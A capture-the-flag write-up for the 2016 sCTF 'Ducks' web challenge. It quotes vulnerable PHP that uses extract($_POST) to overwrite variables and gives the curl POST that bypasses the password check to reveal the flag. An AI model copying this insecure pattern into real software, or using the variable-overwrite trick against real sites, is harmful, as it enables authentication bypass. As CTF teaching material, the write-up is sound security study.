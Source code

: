 #Ducks

##[The ducks](http://ducks.sctf.michaelz.xyz/) and I have a unfinished score to settle.

**Hint:** *If you've remember HSF, you'll know that The Ducks is unsolvable.*

Viewing the source code of this challenge, we appear to have some awkward use of extract...

```
<?php if ($_SERVER["REQUEST_METHOD"] == "POST") { ?>
                        <?php
                        extract($_POST);
                        if ($pass == $thepassword_123) { ?>
                            <div class="alert alert-success">
                                <code><?php echo $theflag; ?></code>
                            </div>
                        <?php } ?>
                    <?php } ?>
```


The exploit:
>PHP has a function named extract() to take all provided GET and POST requests and assign them to internal variables. Developers will, at times, use this function instead of manually assigning $_POST[var1] to $var1. This function will overwrite any previously defined variables, including server variables. Extract() has options which prevent overwriting previously-defined variables, however this safety is not enabled by default, and developers might not enable the safety, just as many do not perform input validation. This vulnerability is similar in design to the register globals vulnerabilities present in PHP.

[Source](https://davidnoren.com/2013/07/03/php-extract-vulnerability/)

So, now it's pretty trivial. The goal is to set $pass equal to the same value as $thepassword_123. I opted to use curl for this.

`curl 'http://ducks.sctf.michaelz.xyz/' --data 'pass=t&thepassword_123=t'`

grepping the results for the flag provides a positive result:
`<code>sctf{maybe_i_shouldn't_have_extracted_everything_huh}</code>`

![flag](https://github.com/HackThisCode/CTF-Writeups/blob/master/2016/SCTF/Ducks/flag.png "Flag")
